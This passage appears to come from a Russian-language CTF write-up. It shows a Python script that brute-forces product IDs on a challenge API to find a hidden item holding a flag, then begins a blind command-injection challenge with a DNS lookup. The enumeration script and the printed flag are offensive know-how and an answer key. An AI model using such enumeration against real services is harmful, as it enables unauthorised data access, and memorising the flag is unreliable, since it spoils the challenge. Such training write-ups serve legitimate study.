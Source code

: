 ```bash
}
```

Но что, если ассортимент не заканчивается на 8 товарах? Попробуем перебрать id в пределах 100:
```python
import requests as r

for i in range(1, 101):
    response = r.get(f'https://baro.uctf.xotohop.tech/api/product/{i}')
    if response.status_code != 404:
	    print(f'{i}: {response.text}')
```

Вывод:
```
1: {"description":"Stealthy and comfortable","image":"black_hoodie.jpg","name":"Black Hoodie","price":39.99}
2: {"description":"Perfect for nighttime operations","image":"dark_sunglasses.jpg","name":"Dark Sunglasses","price":29.99}
3: {"description":"Silent steps guaranteed","image":"shadow_boots.jpg","name":"Shadow Boots","price":79.99}
4: {"description":"256-bit encryption for your data","image":"encrypted_usb.jpg","name":"Encrypted USB","price":59.99}
5: {"description":"Invisible to metal detectors","image":"stealth_backpack.jpg","name":"Stealth Backpack","price":89.99}
6: {"description":"Enhanced grip and protection","image":"tactical_gloves.jpg","name":"Tactical Gloves","price":34.99}
7: {"description":"See in complete darkness","image":"night_vision_goggles.jpg","name":"Night Vision Goggles","price":299.99}
8: {"description":"There's usually one to three \u5df4...","image":"strange_eye.jpg","name":"Someone's strange eye","price":999999.99}
42: {"description":"UCTF{6a1ciBfvyWkjpdtSncYV9gZAcQJDYp5I}","image":"flag.jpg","name":"Hidden product","price":1337.0}
```
## chigiri
### tl;dr
Blind OS command injection with out-of-band data exfiltration
### solution
Тут у нас инструмент, который выдает IP-адрес введенного домена, то есть делает DNS-запрос - отсюда и смысл задания: понять, какие запросы делаются для получения IP-адреса домена, как их "отловить" и что можно с этим сделать

Сразу оговоримся, что сервер на Linux (в реальности пришлось бы еще пытаться понять, это Windows или Linux - про это уже читайте сами)

И так, вводим `vk.com`:
```
93.186.225.194
87.240.132.72
87.240.129.133
87.240.132.67
87.240.132.78
87.240.137.164
```

